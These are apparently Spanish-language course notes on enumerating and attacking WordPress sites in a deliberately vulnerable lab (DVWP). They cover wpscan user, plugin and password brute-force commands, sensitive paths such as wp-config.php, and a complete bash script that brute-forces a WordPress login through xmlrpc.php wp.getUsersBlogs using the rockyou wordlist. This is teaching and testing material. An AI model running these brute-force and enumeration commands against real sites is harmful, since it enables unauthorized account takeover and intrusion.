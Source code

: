 # WordPress

Tags: #WordPress #CMS 

## Enumeración de gestores de contenido (CMS) – WordPress

WordPress es un CMS de código abierto muy popular que fue lanzado en 2003. Es utilizado por millones de sitios web en todo el mundo y se destaca por su facilidad de uso y flexibilidad. Con WordPress, los usuarios pueden crear y personalizar sitios web sin necesidad de conocimientos de programación avanzados. Además, cuenta con una amplia variedad de plantillas y plugins que permiten añadir funcionalidades adicionales al sitio.

El proyecto que utilizamos en esta clase para enumerar un WordPress es el siguiente:

-   **DVWP**: [https://github.com/vavkamil/dvwp](https://github.com/vavkamil/dvwp)

Una de las herramientas que utilizamos en esta clase para enumerar este gestor de contenido es **Wpscan**. Wpscan es una herramienta de código abierto que se utiliza para escanear sitios web en busca de vulnerabilidades de seguridad en WordPress.

Con Wpscan, podemos realizar una enumeración completa del sitio web y obtener información detallada sobre la instalación de WordPress, como la versión utilizada, los plugins y temas instalados y los usuarios registrados en el sitio. También nos permite realizar pruebas de fuerza bruta para descubrir contraseñas débiles y vulnerabilidades conocidas en plugins y temas.

Wpscan es una herramienta muy útil para los administradores de sitios web que desean mejorar la seguridad de su sitio WordPress, ya que permite identificar y corregir vulnerabilidades antes de que sean explotadas por atacantes malintencionados. Además, es una herramienta fácil de usar y muy efectiva para identificar posibles debilidades de seguridad en nuestro sitio web.

## Rutas típicas de WordPress en la web 

```python
/wp-login.php                        # Es la ruta del panel de autenticación 
/wordpress/wp-login.php
/wp-admin.php                        # Es la ruta del panel de autenticación de admin
/wp-admin/
/wp-json/wp/v2/users/                # Reporta usuarios validos en la pagina de WordPress en formato Json
/wp-content/plugins                  # Ver si podemos hacer 'directory listing' y ver los plugins existentes
/xmlrpc.php                          # Si esta expuesto, podemos enumerar usuarios 
```

## Ruta típica en consola

```python 
/var/www/html/                 # Ruta donde se encuentra 'phpinfo.php | wordpress | index.html'

# Archivos que se encuentran en 'admin', este tiene la configuracion del 'phpadmin'

# Archivos que se enecuentran dentro del directorio 'WordPress'
wordpress.conf                 # Archivo con configuracion del WordPress y se encuentra en /etc/apache2/sites-enabled/ 
wp-config.php                  # Archivo con credenciales de acceso a la DB, se encuentra en /var/www/html, o en la ruta /usr/share/wordpress/ y contiene todas las configuraciones 
wp-settings.php                # Se encarga de hacer la subida de los plugins


/wp-admin/                     # Directorio que contiene el formulario y se encuentra en /var/www/html/wordpress 
/wp-content/                   # Directorio que contiene los 'plugins, themes'
Nota: No se cuenta el 'index.php' como tema o plugin, ademas, si existe un 'plugin' que puede ser vulnerable, lo podemos explotar con 'Metasploit'
```
 
## WordPress Enumeración 

```bash 
# Enumeración
1. Buscar usuarios en la pagina Web y validarlos en el 'Panel de Login'
2. Buscar credenciales por defecto para WordPress
3. Enumeracion de directorios 'Dirb, Gobuster, etc...'
4. Usar 'Whatweb' para ver la version del WordPress
5. Aunque tengamos la utlima version de 'WordPress' mientras tenga 'Plugins' desactualizados, será vulnerable 
6. Buscar 'plugins' en el codigo fuente o usando el comando 'curl'
7. Usar Wpscan para enumeracion de 'usuarios, passwords, plugins'
8. Fuerza bruta a la password de los usuarios con 'Hydra' con caracteres especiales del 'panel de login'
```

```bash
❯ wpscan --url ❮http://IP/❯                               # Detecta vulnerabilidades en un wordPress
```

```bash
❯ wpscan --url http://URL/wordpress -e u,vp               # Enumeracion de usuarios y plugins vulnerables 

	# e = Enumerar multiples cosas 
	# u = Enumerar usuarios
	# vp = Enumerar plugins vulnerables

❯ wpscan --url http://URL/ --passwords /usr/share/wordlists/rockyou.txt       # BruteForce 

	# passwords = Enumerar passwords a todos los usuarios que encuentre la herramienta

❯ wpscan --url <http://URL/> -e u,vp --plugins-detection aggressive           # Enumeracion de plugins de manera agresiva 
	
	# plugins-detection = Enumeracion de plugins (mixed, passive, aggressive)
```

El **API Token** lo podemos descargar registrándonos desde la siguiente url:
* [API-Token](https://wpscan.com/register)

```bash
❯ wpscan --url <http://URL/> -e vp --api-token="DFFGB15GD68DG618GD81GRD"     # Enumeracion 

	# vp = Enumerar plugins vulnerables
	# api-token = Nos representa de mejor manera las vulnerabilidades con el API Token
```

```bash
❯ wpscan --url <http://IP/> -U <USER> -P /usr/share/wordlists/rockyou.txt # Fuerza bruta

	# P = Ruta del diccionario 
	# U = Usuario valido
```

```bash
❯ curl -s -X GET "http://IP/" | grep -oP 'plugins/\k[^/]+' | sort -u # Filtramos por plugins en la pagina web y ver si alguno es vulnerable y lo podriamos buscar en Searchsploit

	# \K = Quita la palabra de la izquierda (plugins) 
	# [^/]+ = Muestra hasta la primer barra derecha en la busqueda y quita todo lo de la derecha   
	# sort u = Quitar los resultados repetidos y dejar los 'unicos'
	# s = Modo silencioso 
```

## Abusando de xmlrpc.php

Si esta expuesto, podemos enumerar credenciales validas y solo acepta peticiones por **POST** y que este estructurada en **XML**
* Debemos de listar los métodos y lo haremos con el código del archivo y ver si existe el siguiente **wp.getUsersBlogs** y después aplicar fuerza bruta
* [Xmlrpc-Abuse](https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/)

```bash
❯ curl -s -X POST "http://IP/xmlrpc.php" -d@file.xml   # Forma de tramitar el archivo por POST

	# d@ = Indicamos el archivo que usaremos y es que esta abajo 
```

```bash
# Listamos los métodos en 'xmlrpc.php'

❯ nvim file.xml

	<?xml version="1.0" encoding="utf-8"?> 
	<methodCall> 
	<methodName>system.listMethods</methodName> 
	<params></params> 
	</methodCall>
```

```bash 
# Creamos un archivo llamado 'xmlrpc_bruteforce.sh' para hacer el ataque 'Brute force' y enumerar 

#!/bin/bash 

function ctrl_c(){
	echo -e "\n\n[!] Saliendo...\n"
	tput cnorm; exit 1
}

# Ctrl_c
trap ctrl_c INT

tput civis

function createXML(){
	password=$1

	xmlFile="""
	<?xml version=\"1.0\" encoding=\"UTF-8\"?>
	<methodCall> 
	<methodName>wp.getUsersBlogs</methodName> 
	<params> 
	<param><value>omar</value></param> 
	<param><value>$password</value></param> 
	</params> 
	</methodCall>
	"""
	echo $xmlFile > file.xml
	response=$(curl -s -X POST "http://IP/xmlrpc.php" -d@file.xml)

	if [ ! "$(echo $response | grep 'Incorrect username or password.')" ]; then 
		echo -e "\n[+] La contraseña para el usuario omar es $password"
		echo 0
	fi
}

cat /usr/share/wordlists/rockyou.txt | while read password; do 
	createXML $password
done 
```